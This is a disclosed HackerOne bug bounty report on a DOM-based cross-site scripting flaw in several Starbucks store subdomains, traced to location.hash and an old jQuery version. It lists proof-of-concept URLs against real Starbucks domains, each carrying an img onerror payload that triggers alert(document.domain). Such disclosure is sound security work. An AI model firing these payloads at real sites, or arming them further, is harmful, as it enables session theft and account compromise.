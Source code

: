 # Dom Based Xss DIV.innerHTML  parameters store.starbucks*

## Report Details
- **Report ID**: 188185
- **URL**: https://hackerone.com/reports/188185
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-04T10:44:58.569Z
- **Disclosed**: 2017-01-12T22:33:36.723Z

## Reporter
- **Username**: e3xpl0it
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi! this subdomain store.starbucks* vulnerable to dom based xss. 
you are using the vulnerable library jQuery.V1_10_1	
parameters location.hash DIV.innerHTML .
Vulnerable all subdomains store.starbucks*
It works Chrome,and IE 11 the current version
POC
http://shop.starbucks.de/on/demandware.store/Sites-StarbucksDE-Site/de_DE/Default-Start?#a.remote[href$=<img onerror="alert(document.domain)" src=x.jpg"/>
http://store.starbucks.ca/on/demandware.store/Sites-StarbucksDE-Site/de_DE/Default-Start?#a.remote[href$=<img onerror="alert(document.domain)" src=x.jpg"/>
http://store.starbucks.fr/on/demandware.store/Sites-StarbucksDE-Site/de_DE/Default-Start?#a.remote[href$=<img onerror="alert(document.domain)" src=x.jpg"/>
http://store.starbucks.co.uk/on/demandware.store/Sites-StarbucksDE-Site/de_DE/Default-Start?#a.remote[href$=<img onerror="alert(document.domain)" src=x.jpg"/>

## Attachments
- store.starbucks.de-dom_xss.jpg
- store.starbucks.co.uk_-dom_xss.jpg

